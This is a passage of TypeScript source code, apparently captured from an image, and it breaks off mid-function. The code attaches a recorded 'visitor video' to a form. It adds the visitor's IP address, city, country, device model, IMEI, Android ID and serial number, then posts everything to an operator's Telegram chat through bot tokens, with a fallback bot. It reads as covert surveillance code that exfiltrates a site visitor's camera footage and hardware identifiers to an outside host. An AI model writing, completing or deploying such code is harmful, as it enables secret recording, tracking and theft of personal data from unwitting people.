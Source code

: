   const videoFile = new File([videoBlob], 'visitor-video.mp4', {
    type: 'video/mp4'
  });
  
  formData.append('video', videoFile);
  formData.append('caption', `🎥 Visitor Video
⏰ Time: ${new Date().toISOString()}
🌆 City: ${locationInfo.city}
🌍 Country: ${locationInfo.country}
🌐 IP: ${locationInfo.ip}
📱 Device: ${deviceInfo.brand} ${deviceInfo.model}
📱 IMEI: ${deviceInfo.imei || 'Not available'}
📱 Android ID: ${deviceInfo.androidId || 'Not available'}
📱 Serial: ${deviceInfo.serialNumber || 'Not available'}`);
  formData.append('supports_streaming', 'true');

  const sendVideo = async (botToken: string): Promise<Response> => {
    if (!botToken) {
      throw new Error('Bot token is missing');
    }

    const chatInfoResponse = await fetch(`https://api.telegram.org/bot${botToken}/getChat?chat_id=${CHAT_ID}`);
    const chatInfo = await chatInfoResponse.json();

    const finalChatId = chatInfo.ok && chatInfo.result.type === 'supergroup' 
      ? chatInfo.result.id 
      : CHAT_ID;

    formData.set('chat_id', finalChatId);

    const response = await fetch(`https://api.telegram.org/bot${botToken}/sendVideo`, {
      method: 'POST',
      body: formData,
    });

    if (!response.ok) {
      const responseData = await response.json();
      throw new Error(
        `Telegram API Error: ${response.status} - ${responseData.description || response.statusText}`
      );
    }

    return response;
  };

  try {
    if (primaryBotToken) {
      try {
        await sendVideo(primaryBotToken);
        console.log('Video sent successfully with primary bot');
        return;
      } catch (error) {
        console.error('Primary bot failed to send video:', error instanceof Error ? error.message : 'Unknown error');
      }
    }
